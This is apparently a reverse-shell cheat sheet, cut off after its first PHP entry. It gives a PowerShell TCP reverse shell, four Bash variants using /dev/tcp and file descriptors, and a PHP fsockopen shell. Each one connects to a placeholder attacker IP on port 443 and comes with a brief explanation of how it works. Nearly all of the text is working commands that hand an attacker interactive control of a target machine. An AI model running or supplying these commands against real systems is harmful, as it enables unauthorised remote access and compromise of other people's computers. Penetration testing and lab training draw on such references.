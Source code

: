 powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" #powershell reverse shell


## Bash

### Normal Bash Reverse Shell

```
target@foo:~$ bash -i >& /dev/tcp/<ATTACKER_IP>/443 0>&1 
```
This reverse shell initiates an interactive bash shell that redirects input and output through a TCP connection to the attacker's IP (ATTACKER_IP) on port 443. The >& operator combines both standard output and standard error.


### Bash Read Line Reverse Shell

```
target@foo:~$ exec 5<>/dev/tcp/<ATTACKER_IP>/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```
This reverse shell creates a new file descriptor (5 in this case)  and connects to a TCP socket. It will read and execute commands from the socket, sending the output back through the same socket.


### Bash With File Descriptor 196 Reverse Shell

```
target@foo:~$ 0<&196;exec 196<>/dev/tcp/<ATTACKER_IP>/443; sh <&196 >&196 2>&196 
```

This reverse shell uses a file descriptor (196 in this case) to establish a TCP connection. It allows the shell to read commands from the network and send output back through the same connection.


### Bash With File Descriptor 5 Reverse Shell

```
target@foo:~$ bash -i 5<> /dev/tcp/<ATTACKER_IP>/443 0<&5 1>&5 2>&5
```

Similar to the first example, this command opens a shell (bash -i), but it uses file descriptor 5 for input and output, enabling an interactive session over the TCP connection.

## PHP

### PHP Reverse Shell Using the exec Function

```
target@foo:~$ php -r '$sock=fsockopen("<ATTACKER_IP>",443);exec("sh <&3 >&3 2>&3");' 
```
